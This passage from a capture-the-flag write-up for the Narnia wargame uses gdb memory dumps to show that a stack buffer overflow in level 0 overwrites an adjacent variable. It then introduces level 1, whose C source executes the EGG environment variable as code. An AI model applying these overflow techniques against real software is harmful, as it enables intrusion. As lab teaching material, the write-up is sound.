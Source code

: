 
```sh
(gdb) b *main+63
Breakpoint 1 at 0x8048503
```

We run the debugged program with 20 Bs (\x42) as the input. It stops in the address above, right after ```scanf```:
```sh
(gdb) r
Starting program: /games/narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance:

Breakpoint 1, 0x08048503 in main ()
```

Now we examine the memory in, say, 12 counts:

```sh
(gdb) x/12xw $esp
0xffffd6a0: 0x08048689  0xffffd6b8  0x08049ff4  0x08048591
0xffffd6b0: 0xffffffff  0xf7e59d46  0x42424242  0x42424242
0xffffd6c0: 0x42424242  0x42424242  0x42424242  0x41414100
```

The variable *buf* is in the 7-11th entries (0x42424242). Right after that  is *val* (which we know is still 0x41414141). Wait, do you see the two zeros in ```0x41414100```? This is the space in the end of *buf*

Finally, we test with 20 Bs + 4 Cs and confirm that our exploit works:

```sh
(gdb) x/12xw $esp
0xffffd6a0: 0x08048689  0xffffd6b8  0x08049ff4  0x08048591
0xffffd6b0: 0xffffffff  0xf7e59d46  0x42424242  0x42424242
0xffffd6c0: 0x42424242  0x42424242  0x42424242  0x43434343
```


---

## Level 1:  Stack Overflow  with Environment Variables

### Step 1: Understanding the Problem

The second level starts with:
```c
narnia1@melinda:/narnia$ ./narnia1
Give me something to execute at the env-variable EGG

narnia1@melinda:/narnia$ cat narnia1.c
#include <stdio.h>

int main(){
  int (*ret)();

  if(getenv("EGG")==NULL){
    printf("Give me something to execute at the env-variable EGG\n");
    exit(1);
  }

  printf("Trying to execute EGG!\n");
  ret = getenv("EGG");
  ret();

  return 0;
}
```